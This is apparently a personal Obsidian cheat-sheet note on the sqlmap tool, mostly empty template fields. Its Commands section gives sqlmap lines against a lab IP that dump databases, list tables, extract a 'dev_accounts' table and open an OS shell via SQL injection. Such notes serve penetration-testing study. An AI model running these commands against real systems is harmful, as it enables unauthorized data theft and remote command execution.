 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #🧰
---
```

 
Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[sqlmap]]  
___

## Description:


## Installation


## Commands

**URL**
```
sqlmap -u http://10.11.0.22/debug.php?id=1 --dump
```


**Using a saved request**
Save the request from burp in the proxy tab by going to action, and then save item.
Then run sqlmap with the following (burp1 is the file saved from burp):
```

sqlmap -r burp1 --risk=3 --level=5 -databases --batch

sqlmap -r burp1 --risk=3 --level=5 -D gallery --tables --batch

sqlmap -r burp1 --risk=3 --level=5 -D gallery -T dev_accounts --dump --batch

```

Getting a shell:

```
 sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (12:22 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
